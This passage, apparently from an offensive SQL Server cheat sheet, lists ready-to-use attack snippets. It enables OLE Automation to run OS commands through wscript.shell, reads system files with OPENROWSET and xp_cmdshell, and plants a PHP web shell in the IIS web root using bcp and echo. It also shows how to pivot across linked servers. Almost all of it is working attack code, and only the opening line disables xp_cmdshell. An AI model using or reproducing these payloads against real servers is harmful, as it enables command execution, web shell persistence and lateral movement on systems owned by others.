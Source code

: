 ```sql
-- Disable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 0;
RECONFIGURE;
```

#### sp_OACreate (OLE Automation)
```sql
-- Enable OLE Automation
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;

-- Execute commands
DECLARE @myshell INT;
EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
EXEC sp_oamethod @myshell, 'run', null, 'cmd /c "echo test > C:\temp\test.txt"';
```

### File Operations

#### Reading Files
```sql
-- Using OPENROWSET
SELECT * FROM OPENROWSET(BULK 'C:\Windows\System32\drivers\etc\hosts', SINGLE_CLOB) AS Contents;

-- Using xp_cmdshell
EXEC xp_cmdshell 'type C:\Windows\System32\drivers\etc\hosts';
```

#### Writing Files
```sql
-- Using BCP
EXEC xp_cmdshell 'bcp "SELECT ''<?php system($_GET[\"c\"]); ?>''" queryout C:\inetpub\wwwroot\shell.php -c -T';

-- Using xp_cmdshell
EXEC xp_cmdshell 'echo ^<?php system($_GET["c"]); ?^> > C:\inetpub\wwwroot\shell.php';
```

### Database Links
```sql
-- List linked servers
EXEC sp_linkedservers;
SELECT * FROM sys.servers;

-- Query linked server
SELECT * FROM OPENQUERY("LINKEDSERVER", 'SELECT @@version');

-- Execute on linked server
EXEC ('SELECT @@version') AT LINKEDSERVER;
```
